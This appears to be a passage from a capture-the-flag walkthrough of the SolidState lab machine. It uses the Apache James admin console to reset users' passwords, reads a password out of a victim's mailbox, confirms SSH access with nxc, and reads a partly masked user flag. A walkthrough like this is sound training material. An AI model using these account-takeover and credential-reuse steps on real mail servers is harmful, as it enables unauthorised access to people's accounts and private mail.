 ```
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

We can reset user passwords from this Administration tool and try to login using the resetted password, I am using Evolution mail client.

```
setpassword [username] [password]       sets a user's password
# We will use this command to reset the user password and try to login on Evolution mail client and check their inbox
setpassword james password
Password for james reset
# We dont see anything in James's Inbox, lets try another user
setpassword mindy password
Password for mindy reset
```

Interesting find in Mindy's inbox

![image](https://github.com/user-attachments/assets/8a4e8927-3aa2-4390-87ab-2fb408553ea0)

Lets see if we have ssh access with this password

```
echo 'mindy:P@55W0rd1!2@' >> creds.txt

└──╼ $nxc ssh 10.10.10.51 -u mindy -p 'P@55W0rd1!2@'
SSH         10.10.10.51     22     10.10.10.51      [*] SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u1
SSH         10.10.10.51     22     10.10.10.51      [+] mindy:P@55W0rd1!2@  Linux - Shell access!

```

We can login but it looks like we are in a rbash shell

```
mindy@solidstate:~$ id
-rbash: id: command not found
mindy@solidstate:~$ whoami
-rbash: whoami: command not found
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt
73bf52cb1dca3f436712e5e02bXXXXXX
mindy@solidstate:~$
```
